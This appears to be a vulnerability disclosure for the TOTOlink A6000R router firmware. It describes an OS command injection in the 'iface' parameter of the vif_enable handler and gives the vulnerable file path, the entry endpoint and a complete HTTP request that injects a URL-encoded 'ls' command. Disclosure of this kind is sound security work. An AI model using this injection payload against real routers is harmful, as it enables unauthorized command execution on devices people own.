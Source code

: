 # TOTOlink A6000R V1.0.1-B20201211.2000 Command Injection
## Product Information

Device: TOTOlink A6000R
Firmware Version: V1.0.1-B20201211.2000
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](img\1.png)

## Vulnerability Description

When deal with  `vif_enable` request,`iface` parameter is vulnerable to OS command injection.

vuln code in firmware: /usr/lib/lua/luci/controller/mtkwifi.lua, line 507-514

![](img/2.png)



entry: /admin/mtk/wifi/vif_enable/arg

![](img/3.png)

## Payload

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_enable/%3b%6c%73%3b HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=499e9bfcb83e421b62fa91108f6b9bca
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close


```

inject the command "ls"

![](img/4.png)

